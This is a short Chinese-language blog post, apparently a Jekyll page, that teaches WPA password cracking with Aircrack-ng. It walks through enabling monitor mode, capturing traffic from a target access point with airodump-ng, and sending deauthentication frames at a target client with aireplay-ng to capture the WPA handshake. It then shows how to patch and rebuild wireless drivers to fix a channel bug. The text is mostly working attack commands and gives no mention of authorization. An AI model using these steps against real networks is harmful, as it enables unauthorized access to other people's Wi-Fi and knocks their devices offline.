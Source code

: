 ```yaml
---
layout: post
title: "学习如何使用Aircrack-ng"
description: ""
category: Tools&Apps
tags: [aircrack, wpa]
---
```

{% include JB/setup %}

最近需要wpa密码破解，所以简单学习了下Aircrack-ng。

Aircrack-ng是个具有较多功能的密码破解工具，例如airmon-ng 用于监控网卡，airodump-ng用于抓取数据包，aireplay-ng用于发包等等。

###aricrack-ng 使用

需要开启网卡的混杂模式用于监听，首先查看网络接口

	sudo ifconfig

比如，无线接口为` wlan1 `，则使用其来扫描和监控。开启` wlan1 `

	sudo ifconfig wlan1 up

扫描范围内的AP

	sudo iwlist wlan1 scan

开启` wlan1 `的混杂监听模式

	sudo airmon-ng start wlan1

通常会新建一个新的监听接口，叫做` mon0 `，如果当前存在` mon0 `则会数字累加，继续生成如` mon1 `等新的接口。可以通过

	sudo airmon-ng 

来查看是否新建` mon0 `成功。

之后使用` airodump-ng `进行抓包。

	sudo airodump-ng --bssid 目标AP的MAC（XX:XX:XX:XX:XX:XX） --channel 目标AP信道（例如11） -w wap mon0

其中的` -w `选项为保存数据包的命名，可以随意。

再开启一个终端，使用` aireplay-ng `来发包。

	sudo aireplay-ng -0 3 -a 目标AP的MAC（XX:XX:XX:XX:XX:XX） -c 目的客户端的MAC(XX:XX:XX:XX:XX:XX) mon0

其中` -0 3`为发送3次断开连接的命令，等同于` --deauth=3 `。

这样，在之前的` airodump-ng `的终端，可以看到` wpa handshake `的提示，说明抓到四次握手的数据包，可以进行下一步的破解了。

###Bug&Patch

在使用` aireplay-ng `发送deauth数据包的时候,可能会遇到channel 为 -1的BUG，这样会导致信道与目标AP 不符，从而无法收到四次握手的过程.

	wget http://wireless.kernel.org/download/compat-wireless-2.6/compat-wireless-2012-04-26.tar.bz2
	tar -jxf compat-wireless-2012-04-26.tar.bz2
	cd compat-wireless-2012-04-26
	
	wget http://patches.aircrack-ng.org/mac80211.compat08082009.wl_frag+ack_v1.patch
	patch -p1 < mac80211.compat08082009.wl_frag+ack_v1.patch
	wget http://patches.aircrack-ng.org/channel-negative-one-maxim.patch
	patch ./net/wireless/chan.c channel-negative-one-maxim.patch
	
	make
	sudo make install
	sudo make unload
	sudo reboot
  
之后就可以正常使用了。
